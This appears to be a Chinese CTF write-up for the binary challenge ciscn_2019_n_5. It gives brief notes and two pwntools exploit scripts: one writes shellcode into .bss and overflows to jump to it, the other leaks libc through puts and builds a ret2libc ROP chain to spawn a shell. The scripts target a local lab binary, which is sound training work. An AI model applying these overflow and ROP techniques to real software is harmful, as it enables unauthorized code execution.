


1. 程序没有开启`NX`保护,并且是`RWX`权限可以运行段上代码
2. 预期解:往`name`中写入`shellcode`,再利用`get`转跳到相应的`.bss`段上运行`shellcode`
3. 非预期解:通过`get`泄露`puts()`地址,泄露`libc`地址,劫持程序流得到`shell`.注意这里`64`位`($rdi)`和`32`位程序传参的不同.

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p=process('./ciscn_2019_n_5')
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil(b'me?\n')
name=0x601080
payload=b'a'*0x28+p64(name)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
#io = gdb.debug('./ciscn_2019_n_5','b *0x40067a')
context.log_level = 'debug'
io = process('./ciscn_2019_n_5')
#io = gdb.debug('./ciscn_2019_n_5','b main')
elf = ELF('./ciscn_2019_n_5')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
padding = 0x20
#泄露libc
io.sendlineafter('tell me your name\n',b'1')
#padding+pop_rdi+puts_got+puts_plt+main_addr
payload1 = b'A'*0x28+p64(0x0000000000400713)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter('What do you want to say to me?\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr ->',hex(puts_addr))
io.sendlineafter('tell me your name\n',b'1')
#payload构造
Liboffset = puts_addr-Lib.sym['puts']
sys_addr = Lib.sym['system']+Liboffset
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(0x28)+p64(0x0000000000400713)+p64(bin_sh_addr)+p64(0x00000000004004c9)+p64(sys_addr)
io.sendlineafter('What do you want to say to me?\n',payload2)
io.interactive()
```
